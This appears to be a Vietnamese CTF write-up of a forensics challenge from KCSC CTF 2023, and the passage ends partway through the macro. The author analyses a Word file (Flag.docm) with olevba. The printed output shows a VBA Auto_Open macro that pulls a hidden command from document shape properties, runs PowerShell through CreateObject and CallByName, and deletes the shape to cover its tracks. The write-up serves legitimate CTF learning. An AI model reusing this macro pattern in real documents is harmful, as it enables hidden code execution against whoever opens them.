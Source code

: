 # KCSC CTF 2023 write-up

## Forensics

### Tin học văn phòng ###

![](https://hackmd.io/_uploads/ByxC0dkS3.png)

Bài này cho mình file zip (ban đầu không để ý cái "Zip password" nên là mình tưởng nó là dạng crackzip nên crack cả buổi xong vào xem lại mới thấy :)))) ).

Sau khi giải nén với password mà đề bài cho thì mình có được file ``Flag.docm``.

![](https://hackmd.io/_uploads/rySu1FkH2.png)

Nhìn định dạng file thì mình có thể giả định rằng `` mã độc tống tiền nguy hiểm nhất năm 2023`` là 1 dạng VBA malicious macro. Và bộ công cụ phổ biến nhất để phân tích nó là ``oletools``, và mình dùng cụ thể ở đây là ``olevba``.

Mình nhập lệnh ``olevba Flag.docm`` để phân tích. Olevba còn có 1 vài option như -a, -c, -d, --decode, --deobf,...tùy vào mục đích của người dùng, ở đây mình cần tool in ra cả code lẫn phân tích nên không dùng tùy chọn.

```
$ olevba Flag.docm
XLMMacroDeobfuscator: pywin32 is not installed (only is required if you want to use MS Excel)
olevba 0.60.1 on Python 3.8.10 - http://decalage.info/python/oletools
===============================================================================
FILE: Flag.docm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: word\vbaProject.bin - OLE stream: 'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas
in file: word\vbaProject.bin - OLE stream: 'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
'Flag format: KCSC{H1_1m_sUcky_+$phlac}'
Sub Auto_Open()
On Error Resume Next
Dim objCmdShape As Shape
Dim hiddenkey As Long
Dim cmdParams() As String
Dim cmdCommand As String
Dim cmdType As String
Dim cmdObj As Object
hiddenkey = RGB(13, 3, 7)
If Val(Application.Version) > 14 Then
    For x = 1 To ActiveDocument.Shapes.Count
        Set objCmdShape = ActiveDocument.Shapes(x)
        If objCmdShape.Shadow.ForeColor.RGB = hiddenkey Then
            cmdType = objCmdShape.Name
            cmdCommand = objCmdShape.AlternativeText
            cmdParams = Split(objCmdShape.TextFrame.TextRange.Text, "|")
            Set cmdObj = Interaction.CreateObject(cmdType)
            VBA$.[Interaction].CallByName! cmdObj, [cmdCommand], VbMethod, "PoWerShElL", Trim(cmdParams(0)), cmdParams(1), cmdParams(2)
            objCmdShape.Delete
            Exit For
        End If
```